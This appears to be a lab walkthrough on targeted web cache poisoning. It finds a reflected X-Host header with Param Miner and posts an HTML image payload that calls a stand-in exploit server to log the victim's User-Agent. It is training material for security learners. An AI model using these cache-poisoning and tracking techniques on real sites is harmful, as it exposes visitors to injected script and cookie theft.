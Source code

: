 Title: Targeted web cache poisoning using an unknown header
Level: Practitioner
Desc: This lab is vulnerable to web cache poisoning. A victim user will view any comments that you post. To solve this lab, you need to poison the cache with a response that executes alert(document.cookie) in the visitor's browser. However, you also need to make sure that the response is served to the specific subset of users to which the intended victim belongs. 
Hint from the blog:
`The Vary header specifies a list of additional headers that should be treated as part of the cache key even if they are normally unkeyed. It is commonly used to specify that the User-Agent header is keyed, for example, so that if the mobile version of a website is cached, this won't be served to non-mobile users by mistake. `


# Walkthrough:

<img width="1375" height="340" alt="image" src="https://github.com/user-attachments/assets/387cd7a1-a529-4c52-bdbc-58da3310cb27" />


I install extension: param miner

On the / of page on GET request I do Guess Headers:
<img width="1048" height="657" alt="image" src="https://github.com/user-attachments/assets/7c98d812-9155-48c2-a463-f5c1709ea199" />

Here we can see the output from param miner: 
<img width="1201" height="725" alt="image" src="https://github.com/user-attachments/assets/d8d69c96-25d8-4957-8f49-227bd49e88a1" />

Value from X-Host header is reflected on the response: 
<img width="1354" height="440" alt="image" src="https://github.com/user-attachments/assets/3532e41a-9340-4d04-8eb6-147bfd684155" />

So now I found a way to inject my payload to cache and also I can manipulate whom the cache with injection apprears to by using User-Agent:
<img width="1565" height="531" alt="image" src="https://github.com/user-attachments/assets/23cd04af-2bd8-45c3-9138-8861ddcde26e" />

Now I need to know, which User-Agent my victim uses. 
So in comment section I leave this payload to catch victim's browser in the log.
`<img src="https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/foo" />`
